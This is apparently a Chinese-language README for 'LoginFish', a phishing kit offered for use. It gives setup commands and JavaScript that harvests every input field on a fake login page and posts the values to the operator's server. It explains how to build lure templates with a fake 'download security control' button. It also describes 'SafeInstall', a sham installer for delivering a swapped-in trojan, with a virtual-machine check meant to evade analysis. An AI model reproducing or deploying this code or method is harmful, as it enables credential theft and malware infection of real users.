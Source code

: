 
<iframe src="//player.bilibili.com/player.html?aid=555376494&bvid=BV1Tv4y1u7Ze&cid=758544918&page=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>


# LoginFish 通用钓鱼工具


![index](/images/index.png)
![admin](/images/admin.png)
![admin2](/images/index2.png)
![admin3](/images/index3.png)

## 使用方法


```
# 后台登录密码,请修改 password.txt 
# 第一次运行会自动生成密码 写到 password.txt
# 后台地址 http://host:5522/admin/login
# 默认端口5522 

./LoginFish port
./LoginFish 80

```


## 密码记录

![](images/body.png)

可以参考`/static/template/front_login_keylogger.html`文件

所有`input`标签的内容都会被提交到后端,引用`<script src="/static/dist/login.js"></script>`并把登录按钮绑定到`login_submit()`函数即可

你也可以自定义`login.js`,并控制登录之后的返回信息

比如说点击登录之后执行`alert('帐号/密码校验不通过')`

```js
function login_submit() {
    var input = document.getElementsByTagName('input')
    var data = ''
    for (var i = 0; i < input.length; i++) {
        const put = input[i]
        var name = ''
        if (put.className) name = '_' + put.className
        if (put.name) name = '_' + put.name
        var key = `input[${i}${name}]=${put.value}`;
        data = data + key + '&'
    }
    if (data != '') post(data)
    console.log(data)
}
```


## 模板修改

打开`static/template/`目录,默认有俩个模板,分别是`front_login_1.html`和`front_login.html`

如果需要`css`和`js`文件则把其放在`static/dist`中

模板中使用`<script src="/static/dist/login.js"></script>` 这样的路径进行引用

如果需要自定义模板,则在`static/template/`中创建以`front_`开头的html文件即可.

然后需要引用`<script src="/static/dist/login.js"></script>` 文件,再把某个下载按钮绑定到`onclick_input`事件即可

```js
 <div onclick="onclick_input()">
        <label for="password">密码</label>
        <input name="password" class="password" type="password" disabled placeholder="下载安全控件" id="password">
 </div>
```

或者你也可以直接使用`<a href='/down'>下载</a>` 这样的方式去绑定下载地址.

## SafeInstall 模拟安全控件

使用`Visual Studio 2015`与`.NET 4.0`开发,替换木马需要修改资源文件中的`load`

如果需要关闭屏蔽虚拟机,则编辑`SafeInstall/SafeInstall/Form1.cs`文件

```c#
public Form1()
{
    checkVM(); //注释该行即可
    writeFile();
    InitializeComponent();
    progressBar1.Value = 0;
    timer1.Interval = 50;
    timer1.Start();
}
```
